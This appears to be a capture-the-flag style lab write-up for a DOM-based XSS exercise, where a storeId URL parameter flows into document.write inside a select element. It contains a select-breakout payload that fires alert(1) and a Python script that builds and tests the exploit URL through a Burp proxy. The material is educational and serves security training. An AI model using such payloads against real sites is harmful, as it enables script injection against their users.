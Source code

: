 ```yaml
---
title: 'XSS Lab 10'
description: 'DOM XSS in document.write sink using location.search inside a select element'
---
```



## DOM XSS in document.write sink using source location.search inside a select element

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability where unsanitized data from `location.search` is passed into `document.write`, which creates an `<option>` inside a `<select>` element. Because the attacker controls the `storeId` query parameter in the URL, they can inject payloads that break out of the `<select>` and execute JavaScript (for example, via an `<img onerror>`), triggering `alert(1)` to solve the lab.

  The exploit workflow is to craft a URL that contains a `storeId` value which closes the open `<option>`/`<select>` context, injects an HTML element with an event that runs JavaScript, then open that URL in a browser to allow the DOM write to execute the injected markup.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The application reads `storeId` from `location.search` and uses `document.write` to create an `<option>` inside a `<select>` element.
- Because the value is not properly escaped, a payload can close the `<select>`/`option` context and inject new HTML.
- The injected HTML includes a tag with a JavaScript-triggering attribute (e.g. `<img onerror=...>`).
- Opening the modified URL in a browser causes the `document.write` to run and the injected element to execute JavaScript (alert).
- This is a pure DOM XSS — server responses may not contain the final injected markup; the browser builds it at runtime.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import sys
import requests
import urllib3
import urllib.parse

# -------------------------
# Config / defaults
# -------------------------
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
DEFAULT_PRODUCT_ID = 1
TIMEOUT = 8

# -------------------------
# Helpers
# -------------------------
def check_burp(timeout: int = 2) -> None:
    """Ensure Burp is reachable on the default proxy. Exit if not."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=timeout)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite not reachable at 127.0.0.1:8080. Start Burp or update PROXIES in the script.")
        sys.exit(1)

def payload() -> str:
    """Raw XSS payload (break out of <select> and trigger alert)."""
    return '"></select><img src=1 onerror=alert(1)>'

def build_exploit_url(base: str, product_id: int = DEFAULT_PRODUCT_ID) -> str:
    """
    Build exploit URL:
      <base>/product?productId=<N>&storeId=<url-encoded-payload>
    """
    base = base.rstrip("/")
    p = payload()
    encoded = urllib.parse.quote(p, safe="")
    return f"{base}/product?productId={product_id}&storeId={encoded}"

def quick_check(url: str, use_proxy: bool = True) -> bool:
    """
    GET the URL and try to detect reflection of the payload (or fragments).
    Returns True if likely reflected in server response; False otherwise.
    """
    try:
        resp = requests.get(url, allow_redirects=False, verify=False, timeout=TIMEOUT,
                            proxies=(PROXIES if use_proxy else {}))
    except requests.exceptions.RequestException as e:
        print(f"[-] HTTP request failed: {e}")
        sys.exit(1)

    print(f"[+] HTTP {resp.status_code} received. Response length: {len(resp.text)} bytes")

    raw_payload = payload()
    # direct verbatim check
    if raw_payload in resp.text:
        print("[+] Payload found verbatim in response body.")
        return True

    # fragment checks: useful when some characters get encoded
    fragments = ['"></select>', 'onerror=alert', '<img', 'storeId=']
    for frag in fragments:
        if frag in resp.text:
            print(f"[+] Payload fragment detected in response body: {frag}")
            return True

    print("[-] No obvious reflection detected in server response (it may still be injected into DOM at runtime).")
    return False

# -------------------------
# Main
# -------------------------
def main() -> None:
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <base-url>")
        sys.exit(1)

    base = sys.argv[1].strip().rstrip("/")
    print(f"[*] Target: {base}")
    print("[*] Using Burp proxy: yes (127.0.0.1:8080). Edit PROXIES to change.")

    # check Burp (keeps behavior consistent with your previous scripts)
    print("[*] Checking Burp proxy...")
    check_burp()
    print("[+] Burp proxy reachable.")

    # build & display exploit URL
    exploit_url = build_exploit_url(base)
    print(f"[+] Exploit URL:\n{exploit_url}")

    # quick reflection check
    print("[*] Performing quick GET to check reflection (will NOT execute JS)...")
    reflected = quick_check(exploit_url, use_proxy=True)
    if reflected:
        print("[+] Reflection likely — open the URL in a browser to trigger the DOM XSS (alert).")
    else:
        print("[-] Reflection not obvious in response. It still may be exploitable only in DOM; open the URL in a browser and inspect the select/options.")

    print("\n[*] Done. Note: to actually see the alert(1) you must open the URL in a browser or use a JS-capable automation tool (Selenium/Playwright).")

if __name__ == "__main__":
    main()
```